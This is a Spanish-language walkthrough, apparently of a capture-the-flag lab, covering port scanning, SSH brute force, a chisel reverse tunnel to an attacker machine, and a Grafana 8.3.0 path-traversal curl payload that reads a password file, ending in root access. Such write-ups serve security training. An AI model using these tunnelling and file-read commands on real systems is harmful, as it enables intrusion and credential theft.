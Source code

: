 Hacemos el escaneo de nmap:
![[Pasted image 20240312144814.png]]
Esto corre por el puerto 80:
![[Pasted image 20240312144844.png]]
Hacemos fuzzing web de archivos, donde intentamos con la extensión .php:
![[Pasted image 20240312144919.png]]
Dentro de este /penguin.php vemos el siguiente contenido, donde se nos saluda como el usuario pinguinito y se nos dice que dentro de esta máquina hay un contenedor de docker de grafana en su versión 8.3.0, así cómo un archivo database_pass.txt en el directorio /tmp del contenedor:
![[Pasted image 20240312145017.png]]
Intentamos acceder por ssh mediante fuerza bruta con el usuario pinguinito, y encontramos la contraseña de love:
![[Pasted image 20240312145310.png]]
Entramos vía SSH:
![[Pasted image 20240312145353.png]]
Ejecutamos el comando hostname -I y vemos una segunda interfaz de red, que nos hace pensar que se trata de docker, tal y como se nos mostró en el puerto 80 de apache:
![[Pasted image 20240312145459.png]]
Para entrar dentro de esta red y sacar los contenedores que haya en su interior, tenemos que usar chisel. Por lo que lo tenemos en la máquina atacante y lo compartimos con la máquina víctima:
![[Pasted image 20240312145627.png]]
![[Pasted image 20240312145605.png]]
Una vez hecho esto, nos ponemos en escucha a modo de servidor con chisel desde la máquina atacante:
```bash
./chisel server --reverse -p 1234
```
![[Pasted image 20240312145714.png]]
Y nos conectamos desde el cliente pasando todo el tráfico a la máquina atacante:
```bash
./chisel client 192.168.0.20:1234 R:socks
```
![[Pasted image 20240312145747.png]]
Ahora desde el navegador tenemos que indicar que el tráfico pase por el túnel:
![[Pasted image 20240312145824.png]]
Así como asegurarnos de haber especificado dicho túnel en el archivo de configuración de Proxychains:
![[Pasted image 20240312145901.png]]
De tal forma que si accedemos al puerto 3000 (que es donde corre grafana por defecto) y ponemos la IP 172.17.0.2 (ya que por defecto docker crea contenedores empezando por la IP .2, luego .3, etc), podremos acceder al grafana del contenedor:
![[Pasted image 20240312150024.png]]
Esta versión de grafana es vulnerable a LFI, por lo que intentamos explotar esto leyendo el archivo database_pass.txt ubicado en el directorio /tmp, tal y como se nos indicó dentro del puerto 80:
```bash
proxychains curl 'http://172.17.0.2:3000/public/plugins/text/../../../../../../../../../../../../tmp/database_pass.txt' --path-as-is
```
Y obtenemos la contraseña de la base de datos:
```bash
supermegastrongpasswordpenguin
```
![[Pasted image 20240312150522.png]]
Nos traemos la base de datos a nuestra máquina atacante:
![[Pasted image 20240312150637.png]]
![[Pasted image 20240312150646.png]]
La abrimos con keepass, por tanto primero vamos a instalar el cliente desde flatpak:
![[Pasted image 20240312150847.png]]
Accedemos a las credenciales del usuario ballenasio:
```bash
ballenasio:secureballenasio
```
Y vemos que funcionan:
![[Pasted image 20240312151027.png]]
Además, este usuario está dentro del grupo sudo, por lo que si volvemos a poner la misma contraseña ya llegamos a root:
![[Pasted image 20240312151100.png]]